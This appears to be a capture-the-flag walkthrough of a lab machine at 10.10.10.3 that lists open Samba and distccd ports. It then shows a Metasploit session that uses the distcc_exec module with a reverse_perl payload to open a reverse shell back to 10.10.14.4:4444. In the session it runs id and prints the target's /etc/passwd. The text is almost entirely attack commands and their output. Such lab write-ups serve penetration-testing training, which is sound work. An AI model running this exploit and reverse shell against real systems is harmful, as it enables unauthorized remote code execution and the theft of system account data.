 
## [139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)]
##[445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)]


## [3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))]
Distributed Compiler Daemon

````
# msfconsole
msf5 > search distccd

Matching Modules
================
   Name                           Disclosure Date  Rank       Check  Description
   ----                           ---------------  ----       -----  -----------
   exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution

msf5 > use exploit/unix/misc/distcc_exec 
msf5 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(unix/misc/distcc_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf5 exploit(unix/misc/distcc_exec) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf5 exploit(unix/misc/distcc_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:32856) at 2019-02-15 10:07:51 +0100

pwd
/tmp
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:113::/var/cache/bind:/bin/false
````
